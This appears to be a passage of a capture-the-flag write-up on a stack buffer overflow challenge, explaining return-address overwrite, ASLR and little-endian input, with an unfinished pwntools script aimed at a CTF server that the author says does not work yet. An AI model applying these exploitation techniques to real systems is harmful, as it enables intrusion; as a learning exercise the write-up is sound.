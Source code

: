 Our goal here is to find the offset of the function `this_function_literally_prints_the_flag`.

The gimme_pointer function has a buffer overflow vulnerability because it reads 64 bytes into a 17-byte buffer. This can overwrite the saved return address on the stack. If we can control this overwrite, we can make the function return to this_function_literally_prints_the_flag instead of where it was supposed to go.

Also, note that modern systems use Address Space Layout Randomization (ASLR) to randomize the location of functions in memory, so we're going to have to do this calculation based on the printed hex value.

It's also important to note how our input must be formed:

```
Hi! I am the Stack Oracle.

You are here: 0x7ffc771ffd60
 Give me an address and I will grant you 8 leaked bytes:
deadbeef
Here are the contents of 0xefbeadde:
```

In little endian format, the least significant byte is stored first. So, for the hexadecimal number [deadbeef](https://en.wikipedia.org/wiki/0xDEADBEEF), it would be stored and interpreted as `efbeadde`.

This is why when we input `deadbeef`, the program reads it as 0xefbeadde. If you want the program to interpret it as `0xdeadbeef`, you would need to input it in little endian format, which would be `efbeadde`.

```
Hi! I am the Stack Oracle.

You are here: 0x7ffff5a86980
 Give me an address and I will grant you 8 leaked bytes:
efbeadde
Here are the contents of 0xdeadbeef:
```

I'm gonna be real with you: i haven't figured this out yet. If I find a solution, I'll update you here. This is my best attempt so far, but I think I'm missing something.

```py
from pwn import *

def to_little_endian(hex_str: str) -> str:
    # ensure the hex number has even length
    if len(hex_str) % 2 != 0:
        hex_str = "0" + hex_str

    # reverse the byte order
    little_endian = "".join(reversed([hex_str[i:i+2] for i in range(0, len(hex_str), 2)]))

    return little_endian


def hack(offset):
    print(f"trying offset {offset}...")
    # Establish a connection to the challenge
    conn = remote('ctfd.zack.fyi', 8003)

    # Read the initial output from the server
    output = conn.recvuntil(b'Give me an address and I will grant you 8 leaked bytes:\n')

    output_str = output.decode('utf-8') # ensure connection is text

    # parse address from connection
    address_match = re.search(r'0x[0-9a-fA-F]+', output_str)
    if address_match:
```